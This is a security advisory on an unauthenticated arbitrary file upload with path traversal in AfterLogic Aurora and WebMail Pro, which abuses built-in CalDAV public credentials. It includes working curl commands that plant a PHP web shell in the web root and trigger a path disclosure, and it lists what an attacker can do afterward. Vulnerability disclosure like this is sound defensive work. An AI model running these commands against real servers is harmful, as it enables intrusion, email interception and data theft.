 # **Report Title:** Public unrestricted upload with path traversal on AfterLogic Aurora & WebMail Pro WebDAV EndPoint

**The severity of the issue:** Critical

**Complexity:** Easy

**Affected Products:** AfterLogic Aurora, AfterLogic WebMail PRO

**Authentication:** Not required

**Attacks:**  Directory Traversal, Unrestricted Upload of File with Dangerous Type, Public Built-in Credentials For Critical Function

**Gained Access:** WebServer user ( Apache, Nginx, Etc… )

## **Resources:**
* https://owasp.org/www-community/attacks/Full_Path_Disclosure
* https://owasp.org/www-community/attacks/Path_Traversal
* https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload

## **Authors:**
* Emre KELEŞ - @emrekeles on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/emrekeles.svg?style=social&label=Follow%20%40emrekeles)](https://twitter.com/emrekeles)
* Emircan YILDIZ - @scorpsec on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/scorpsec.svg?style=social&label=Follow%20%40scorpsec)](https://twitter.com/scorpsec)
* Halil Emre ÖZEN - @halilemreozen on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/halilemreozen.svg?style=social&label=Follow%20%halilemreozen)](https://twitter.com/halilemreozen)

## **Report Summary:**
AfterLogic Aurora and WebMail Pro products with 7.7.9 and all lower versions are affected by this vulnerability, simply sending an HTTP PUT request to WebDAV EndPoint with built-in “**caldav_public_user@localhost**” and it’s the predefined password “**caldav_public_user**” allows the attacker to create/overwrite files with malicious files such as web shells or database dumpers, etc.

After uploading a malicious PHP file to the web server, some example actions that the attacker can do;

1. Download / Modify the database
    1. Email addresses with easily decodable passwords
    2. CalDAV data ( Calendars of the users )
    3. CardDAV data ( Contacts of the users )
2. Download user uploaded private WebDAV files.
3. Intercept to read/modify emails of webmail users. 
    1. A way to read emails because webmail servers usually are whitelisted on mail servers while normal clients have thresholds
    2. A good way to spread malicious executables/mails to users without struggling mail gateways/spam blockers.
    3. Acting like the real user and sending vicious emails to important users/companies
    4. Sending bulk emails for spam campaigns.
4. Try to privilege escalation to get the root/administrator server.

Etc...

## **To Reproduce:**

Upload the malicious file with the following curl command

```shell
curl -T shell.php -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/persona/%2e%2e/%2e%2e//%2e%2e//%2e%2e/data//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e/var/www/html/shell.php"
```

As the AfterLogic WebMail Pro docs mentioned “the web root usually looks like /var/www/html” and at the above PoC assumes files are located under apache’s standard /var/www/html path, it may differ due to configuration but it’s not a block for the attacker because we realized that some of the EndPoints expose the document root path when the invalid path parameter requested.

Ways to figure out document root directory on customized web server configurations;

1. Using invalid path to get SabreDAV error which gives full path disclosure of the path to the webroot.

```shell
curl -X DELETE -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021"
```

2. Trying to common web server paths
3. Brute force ( append new ../ to the URL, until getting HTTP 200 for the uploaded malicious file. )

## **Technical Description:**

* dav\server.php (handles the request, create the \afterlogic\DAV\Server instance )
* \libraries\Sabre\DAV\server.php -> exec (Pass the request method and uri to invokeMethod)
* \libraries\Sabre\DAV\server.php -> invokeMethod 
* \libraries\Sabre\DAV\server.php -> httpPut
* \libraries\Sabre\DAV\FS\File.php -> put

Unrestricted Upload of File with Dangerous Type, Directory Traversal problem starts on step 2 / exec, it doesn’t sanitize given parameters and checks the file extension which with that way attacker able to write upper directories and execute the malicious file

With the above problem any loggable user can uploads malicious files, with the caldav_public_user@localhost users, attackers don’t need any user info because it has a predefined password, so vulnerability becomes publicly accessible.
